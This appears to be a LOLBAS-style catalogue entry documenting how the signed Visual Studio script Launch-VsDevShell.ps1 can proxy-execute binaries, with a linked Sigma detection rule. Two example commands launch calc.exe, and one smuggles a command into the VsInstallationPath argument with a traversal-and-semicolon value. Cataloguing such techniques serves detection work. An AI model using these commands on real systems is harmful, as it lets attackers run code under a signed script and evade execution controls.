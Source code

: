 ```yaml
---
Name: Launch-VsDevShell.ps1
Description: Locates and imports a Developer PowerShell module and calls the Enter-VsDevShell cmdlet
Author: 'Nasreddine Bencherchali'
Created: 2022-06-13
Commands:
  - Command: 'powershell -ep RemoteSigned -f .\Launch-VsDevShell.ps1 -VsWherePath "C:\windows\system32\calc.exe"'
    Description: Execute binaries from the context of the signed script using the "VsWherePath" flag.
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1216
    OperatingSystem: Windows 10, Windows 11
  - Command: 'powershell -ep RemoteSigned -f .\Launch-VsDevShell.ps1 -VsInstallationPath "/../../../../../; calc.exe ;"'
    Description: Execute binaries and commands from the context of the signed script using the "VsInstallationPath" flag.
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1216
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\Tools\Launch-VsDevShell.ps1
  - Path: C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\Tools\Launch-VsDevShell.ps1
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6199a703221a98ae6ad343c79c558da375203e4e/rules/windows/process_creation/proc_creation_win_lolbin_launch_vsdevshell.yml
Resources:
  - Link: https://twitter.com/nas_bench/status/1535981653239255040
Acknowledgement:
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
---
```

